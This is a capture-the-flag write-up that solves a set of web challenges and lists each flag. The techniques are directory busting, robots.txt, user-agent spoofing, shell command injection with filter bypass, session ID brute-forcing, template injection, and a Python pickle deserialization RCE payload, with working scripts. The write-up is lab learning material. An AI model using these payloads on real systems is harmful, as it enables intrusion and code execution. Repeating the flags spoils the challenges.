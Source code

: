 ## we01

https://ggcs-we01.allyourbases.co/

the blurb said that the flag was on some common directory and said to look for a list of common directories.  

I tossed a dirbuster at it and found a valid directory at https://ggcs-we01.allyourbases.co/sample/

the flag was at https://ggcs-we01.allyourbases.co/sample/flag.txt

flag: `bustING_direTORies_8918`

## we02

https://ggcs-we02.allyourbases.co/

the flag was hidden in one of the webpack js files - particularly https://ggcs-we02.allyourbases.co/component---src-pages-else-js-b41975d5a1f03391fee1.js

I saw it in the source code and noticed that it didn't get loaded.  After checking it out manually i found the flag.  

flag: `webPACkEd-AlRiGHT_7182`

## we03

https://ggcs-we03.allyourbases.co/

the blurb mentioned a secret page which made me think about robots.txt.  I checked it out and it had a disallow directive for https://ggcs-we03.allyourbases.co/61829201829023.html.  The flag was on that page. 

flag: `NO_CrAwLing_Plz_0192`

## we04

https://ggcs-we04.allyourbases.co/

There was some javascript making a request and passing the user agent.  I assumed that the purpose was to allow search engines to read it for SEO purposes.  I set my user agent to googlebot (`Mozilla/5.0 (compatible; Googlebot/2.1; +http://www.google.com/bot.html)`) and it gave me the flag.  
flag: `CrawlING-So-SlOwLY-8199`

## wm01

https://ggcs-wm01.allyourbases.co/

basic shell command injection.  The flag could be read with `/root; cat .flag.txt`

flag: `unSAFE_eXecution_42`

## wm02

https://ggcs-wm02.allyourbases.co/index.html

I looked at the source and found that if you had a cookie name `login` with and id set but nothing else it would fill out the rest of the data.  I wrote a python script to incrementally try every number until 100.  The admin was id 33.  

```python
import requests
import json
url = "https://oo5apsmnc8.execute-api.eu-west-1.amazonaws.com/stag/wm02"
for i in range(100):
	r = requests.post(url, data = json.dumps({"id": i}))
	print(r.text)
```

flag: `IncREMentaLl_SessIoNs-1920`

## wm03

https://ggcs-wm03.allyourbases.co/

I tried a couple other user IDs with getUser but that didn't pan out.  I then tried to send a command to list users and it responsed with a list of commands
```json
        "commands": [
            "getUser",
            "setUser",
            "getFlag",
            "config"
        ]
```

I tried getFlag but it required an authentication token.  POSTing config responded with the token and then I was able to retrieve the flag. 

flag: `LAx_AUThEntiCaTION-:(`

## wh01

you can do command injection with `\n` and `\t` to bypass the blocked characters.  the flag is at /var/task/.../.flag.txt.  I hate this so much, i missed it the first time around and had to brute force every file on the system to find it.  

i used this script to make operation of it a little easier.  

```python
import json
import requests

url = "https://oo5apsmnc8.execute-api.eu-west-1.amazonaws.com/stag/wh01"

while True:
	base_cmd = "/root\\n"
	cmd = base_cmd + input("> ")
	print(cmd)
	cmd = cmd.replace(" ","\\t")
	path = f"{{\"path\": \"{cmd}\"}}"
	print("path: ", path)
	# path = path.format()
	r = requests.post(url, data = path)
	print(r.json()['body'])
```

flag: `SCUffeD_FiLTERing_1000`

## wh02

I noticed that whenever displaying a 404 the page would show the path i failed to access.  I played around with it for a while trying out different injections until I noticed that {{7 * 7}} evaluated.  I then tried {{ locals() }} and received
```
It appears you got lost on the way to: /{'_Context__self': , 'dict': , 'lipsum': , 'cycler': , 'joiner': , 'namespace': , 'dir': , 'help': Type help() for interactive help, or help(object) for help about object., 'locals': , 'globals': , 'laksnd8quoqjknadaklsd9aodu892ja': 'Flag: tEmPlATes-R-FuNN-2391'} of None>, '_Context__obj': , 'args': (), 'kwargs': {}, '__traceback_hide__': True, 'fn': , 'fn_type': 'environmentfunction'}`
```

flag: `tEmPlATes-R-FuNN-2391`

## wh03

https://ggcs-wh03.allyourbases.co/

the website has a bunch of gross javascript and if it takes you more than 100 ms to skip the breakpoint it'll reload.  to bypass this I turned off javascript and then executed the relevant code manually.  I searched around the code until i saw something that looked like it printed the flag (the function u).  It required x to be equal to seq for it to print the flag so i cracked open the js console and set it manually, then called u().  


flag: `rANDom_VICTORy_113`


## wx01

https://ggcs-wx01.allyourbases.co/

python pickle deserialization exploit.  After noticing it was a pickle vuln from the stack trace i got when passing it a malformed data cookie, I wrote up a vuln to print the flag.  The flag was stored in a local variable so my exploit takes advantage of eval to execute code in the context of the server.  

```python
import pickle
import codecs
import base64
import os
class RCE:
    def __reduce__(self):
        return eval, ("{'name': flag}",)


if __name__ == '__main__':
    pickled = pickle.dumps(RCE(), protocol=0)
    print(base64.urlsafe_b64encode(pickled))

```

flag: `suPER_SeRiAL-bR0_02891`